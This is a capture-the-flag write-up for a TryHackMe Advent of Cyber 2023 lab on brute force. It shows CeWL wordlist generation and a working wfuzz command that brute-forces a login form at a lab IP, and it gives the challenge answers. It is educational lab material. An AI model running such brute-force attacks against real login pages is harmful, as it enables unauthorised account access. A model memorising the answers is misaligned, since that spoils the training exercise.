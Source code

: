 # Advent of Cyber 2023

-------------------------------------

Day 4: Brute Force - Baby, It's CeWLd outside

- What is the correct username and password combination? Format username:password
	- `isaias:Happiness`

- What is the flag?
	- `THM`

#### Steps:

1. Create a password list and username that is based on the words from the website. Using cewl

```
cewl -d 2 -m 5 -w passwords.txt http://10.10.44.85 --with-numbers
cewl -d 0 -m 5 -w usernames.txt http://10.10.44.85/team.php --lowercase
```

2. Use the wfuzz to brute force through the website /login.php. Using the password and username list. 

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.44.85/login.php -d "username=FUZZ&password=FUZ2Z"
```
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/b69ae48d-311a-4285-8f32-48f410560328)

<details>
In the command above:

-z file,usernames.txt loads the usernames list.

-z file,passwords.txt uses the password list generated by CeWL.

--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.

-u specifies the target URL.

-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.
</details>

3. Use the crendentials from the bruteforce information. 
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/daaa6f1c-c16d-48e3-8c7a-0390311cbbe2)

```
http://10.10.44.85/login.php
```
